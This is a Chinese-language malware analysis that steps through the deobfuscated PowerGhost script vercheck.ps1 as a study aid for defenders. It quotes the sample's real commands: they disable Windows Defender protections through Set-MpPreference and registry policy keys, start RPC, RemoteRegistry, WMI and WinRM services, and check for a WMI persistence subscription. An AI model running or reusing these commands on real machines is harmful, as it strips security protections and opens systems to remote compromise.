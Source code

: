 反混淆后的样本：[vercheck.ps1](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/deobfuscated/vercheck.ps1)。

1-6 行利用指针大小和环境变量 `PROCESSOR_ARCHITEW6432` 判断系统是 64 位还是 32 位：

```powershell linenums="1"
function Test-Wow64() {
    return (Test-Win32) -and (test-path env:\PROCESSOR_ARCHITEW6432)
}
function Test-Win32() {
    return [IntPtr]::size -eq 4
}
```

7-11 行禁用 Windows Defender 的多项安全功能：

- 实时监控
- 反间谍软件保护
- 行为监控
- 文件访问保护
- 实时扫描

```powershell linenums="7"
Set-MpPreference -DisableRealtimeMonitoring $true | Out-Null
Reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f | Out-Null
Reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableBehaviorMonitoring /t REG_DWORD /d 1 /f | Out-Null
Reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableOnAccessProtection /t REG_DWORD /d 1 /f | Out-Null
Reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableScanOnRealtimeEnable /t REG_DWORD /d 1 /f | Out-Null
```

13-18 行开启多个网络服务和远程管理服务：

- RPC 服务
- RPC 定位器服务
- 远程注册表服务
- RPC 端点映射器
- WMI 服务
- 远程管理服务

```powershell linenums="13"
net start RpcSs | Out-Null
net start RpcLocator | Out-Null
net start RemoteRegistry | Out-Null
net start RpcEptMapper | Out-Null
net start Winmgmt | Out-Null
net start WinRM | Out-Null
```

19-30 行检查系统中是否已经存在 WMI 持久化，以此判断恶意软件是否安装过：

```powershell linenums="19"
$a=([string](Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%Systems Manage%'" | SELECT __Path));
$b=([string](geT-WMIOBJeCt -Namespace root\Subscription -Class __EventFilter -filter "Name= 'Systems Manage Filter'" | SELECT Name));
$c=([string](geT-WMIOBJeCt -Namespace root\Subscription -Class CommandLineEventConsumer -filter "Name= 'Systems Manage Consumer'" | SELECT Name));
if(($a -eq $null) -or ($b -eq $null) -or ($c -eq $null)){
    $IsInstalled = $False
}else{
  if(($a -eq "") -or ($b -eq "") -or ($c -eq "")){
      $IsInstalled = $False
  }else{
      $IsInstalled = $True
  }
```